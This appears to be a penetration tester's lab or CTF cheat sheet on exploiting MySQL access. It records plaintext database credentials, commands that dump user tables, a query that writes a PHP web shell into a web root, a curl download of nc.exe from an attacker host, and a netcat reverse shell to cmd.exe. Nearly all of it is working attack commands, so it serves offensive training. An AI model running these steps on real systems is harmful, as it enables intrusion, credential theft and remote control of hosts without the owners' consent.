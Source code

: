 found db/sql creds:
```
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
```
- `P4ntherg0t1n5r3c0n##` is password goes between `-p''` no space
- `joomla` is name of database
default root sql creds:
```
mysql -h 10.10.13.141 -u root -p
```
- will prompt for password (press enter, default is blank)
```
show databases;
```
- look for one that isn't information_schema, mysql, performance_schema, phpmyadmin, or test
```
use news;
```
- select database from output of last query
```
show tables;
```
- looking for users or something else juicy
```
select * from users;
```
- show all users in table

if sql creds are for root user, check file write privilege:
```
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
- create php shell on hosted website
- go to url http://10.10.247.22/dev/shell.php?cmd=whoami
	- if you see nt authority\system, you have a root webshell
		- can transfer nc.exe from another low-privilege shell by setting up python server `python3 -m http.server 80` on kali machine and from low priv shell run `curl http://10.8.0.136/nc64.exe -o C:/Windows/Temp/nc.exe`
		- then start listener of kali machine and run `C:/Windows/Temp/nc.exe 10.8.0.136 2222 -e cmd.exe`

```
SELECT sys_exec('whoami');
```
- only works if lib_mysqludf_sys is installed
	- otherwise, need to escape

---
#### Windows
```
Get-ChildItem -Path C:\ -Recurse -Include mysql.exe -ErrorAction SilentlyContinue -Force
```
- Find sql.exe filepath
	- usually `C:\xampp\mysql\bin\mysql.exe`
```
C:\xampp\mysql\bin\mysql.exe -u MrGibbonsDB -p
```
- will prompt for pw
	- if no prompt try try this:
```
C:\xampp\mysql\bin\mysql.exe --protocol=TCP -h 127.0.0.1 -P 3306 -u MrGibbonsDB -pMisterGibbs!Parrot!?1 -e "SHOW DATABASES;"
```
- if that works, dump users:
```
C:\xampp\mysql\bin\mysql.exe --protocol=TCP -h 127.0.0.1 -P 3306 -u MrGibbonsDB -pMisterGibbs!Parrot!?1 -e "USE gibbon; SELECT * FROM gibbonPerson;" -E
```
![[Pasted image 20250416092654.png]]
